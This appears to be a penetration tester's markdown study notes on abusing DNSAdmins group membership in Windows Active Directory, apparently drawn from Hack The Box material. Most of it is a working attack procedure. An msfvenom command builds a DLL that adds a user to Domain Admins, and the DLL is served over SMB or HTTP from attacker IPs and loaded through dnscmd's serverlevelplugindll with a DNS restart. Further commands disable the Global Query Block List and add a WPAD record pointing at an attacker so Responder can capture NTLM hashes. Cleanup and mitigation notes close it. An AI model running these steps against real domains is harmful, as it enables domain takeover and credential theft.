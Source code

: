 	
DNS Service runs as system/NT Authority,  members of DNS admins  can load custom DLLs
. https://adsecurity.org/?p=4064
explores 
https://www.winhelponline.com/blog/view-edit-service-permissions-windows/
## Requirements
- Membership in the **DNSAdmins** group.
- Ability to **restart the DNS service** (or wait for a scheduled restart).
**note:** Membership in the DnsAdmins group doesn't give the ability to restart the DNS service, but this is conceivably something that sysadmins might permit DNS admins to do.
	- this is a potentially destructive attack that we should only carry out with explicit permission from and in coordination with our client. If they understand the risks and want to see a full proof of concept, then the steps outlined in this section will help demonstrate the attack and clean up afterward.
## exploit techniques:
- with permissions to restart DNS and DNSadmins membership: privesc to domain admins /root via pointing plugindll path to a malicious dll (best scenario)
- hijack wpad and isatap to poison requests with responder and capture ntlm hashes/ relay to other services
## exploit steps
#### scenario 1: PrivEsc to DA
1. Ensure you are in **DNSAdmins**. and you can **restart DNS service**
2. Place a **custom DLL** on a legit domain network share accessible by the DC. **(not your attacker's share)**
3. Set the DLL with `dnscmd.exe`.
4.  if it allows, **Restart DNS service** to trigger DLL load.
5. check DA group membership
## issues to consider

- **UNC path with dnscmd.exe** → only works if the **machine account** (`<hostname>$`) has rights to that share.
---
### `1. check current permissions and Access rights on DNS Service`

`check group membership`
```
net user <user> /dom
```

`_check access rights on the DNS service (SYSINTERNALS TOOL)`
```
psservice.exe security DNS
```
![[Pasted image 20250818141853.png]]

`generate payload (dll) that once triggered, it adds a user to Domain Admins with the execution context of NT Authority/system that the dns service runs as`
```shell
# generate dll
 msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

# serve dll
smbserver.py -smb2support share-name $(pwd) -username scar -password PleaseSubscribe123
```

`copy dll file to local or place the dllfile in a legit smb share`
```
net use \\10.10.16.32  /user:scar ream

copy \\10.10.16.32\share\adduser.dll -o C:\Users\Public\Temp 

# (optional)  download  via web 
$ python3 -m http.server 7777
wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll
```

`Reconfigure serverlevelplugindll location to point to adduserdll`
```
#  m1. point to remote dll path (smb)
dnscmd.exe /config /serverlevelplugindll \\fileSRV01\<share>\adduser.dll
------------------------------------------------
# m2. point to local dll path 
dnscmd.exe /config /serverlevelplugindll C:\Users\Public\Temp\adduser.dll
```

 `restart DNS Service`
```
sc.exe stop DNS
sc.exe query DNS #check state
sc.exe start DNS
```
#### **issues:** 
1. `dns service wont start after running sc start`, that might be caused by the dns service not being able to access the smb share due to the service being local 
2. in serious domain scenairos the dns service may run by a seperate account called dns-svc for the specific domain.
- **solution**: try serving the `.dll` payload locally.
---
 confirm our user was added to domain admins
`confirm domain Admin user added`
```cmd-session
net group "Domain Admins" /dom
```
---
## other methods:

## Abuse Technique 2: malicious DNS Records to perform a traffic spoofing attack

### creating WPAD records:

- Membership in dnsadmins group gives us the rights to [disable global query block security](https://docs.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2019-ps), which by default blocks this attack The **Global Query Block List** is a security feature in Windows DNS Server that blocks certain **“high-risk” DNS names** from being registered/queried in the domain.
	- wpad, isatap, these protocols are quite vulnerable to hijacking, and any domain user can create a computer object or DNS record containing those names. and then proxy user requests through attacker
	- We could use a tool such as [Responder](https://github.com/lgandx/Responder) or [Inveigh](https://github.com/Kevin-Robertson/Inveigh) to perform traffic spoofing, and attempt to capture password hashes and crack them offline or perform an SMBRelay attack.

#### Disabling the Global Query Block List
```powershell-session
C:\htb> Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```

#### Adding a WPAD Record
```powershell
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address <attacker-ip>
```

now run responder
```
responder -I IFNAME
```
---
### What is the Global Query Block List?

The **global query block list** is a security feature on a DNS server that prevents it from resolving certain names known to be vulnerable to hijacking. By default, this list includes:

	- **WPAD** (Web Proxy Automatic Discovery Protocol)
	- **ISATAP** (Intra-site Automatic Tunnel Addressing Protocol)
### abuse technique 3:
blog that explains another attack vector where you can edit sourcecode for mimikat dll
and get a reverse shell https://academy.hackthebox.com/module/67/section/603

### cleanup

`Confirm registery key exists:`
```cmd-session
reg query \\dc-ip/hostname>\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters

    ServerLevelPluginDll    REG_SZ    adduser.dll
```

`delete key`
```cmd-session
reg delete  \\dc-ip/hostname>\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll
```

`start service`
```cmd-session
sc.exe start dns
```

---
## side notes
### What is WPAD, and Why Does It Matter?

WPAD is a protocol used by clients (like web browsers) to automatically locate a proxy configuration file (e.g., wpad.dat). When a client is set to "auto-detect proxy settings" (common in corporate environments), it queries DNS for a record like wpad.<domain> (e.g., wpad.inlanefreight.local). If the DNS server resolves this query, the client fetches the proxy configuration from the IP address returned.

By default, the global query block list prevents these queries from being resolved to protect against attackers setting up malicious WPAD records. However, if you have DnsAdmins privileges, you can bypass this protection.
# Mitigation
- Ensure only admin accounts are members of the DNSAdmins group and ensure they only administer DNS from admin systems. Include DNSAdmins in the list of groups that membership is carefully scrutinized.
- Regularly review the DNS server object permissions for any group/account that shouldn’t have privileged access.
- Restrict RPC communication to DCs to only admin subnets.

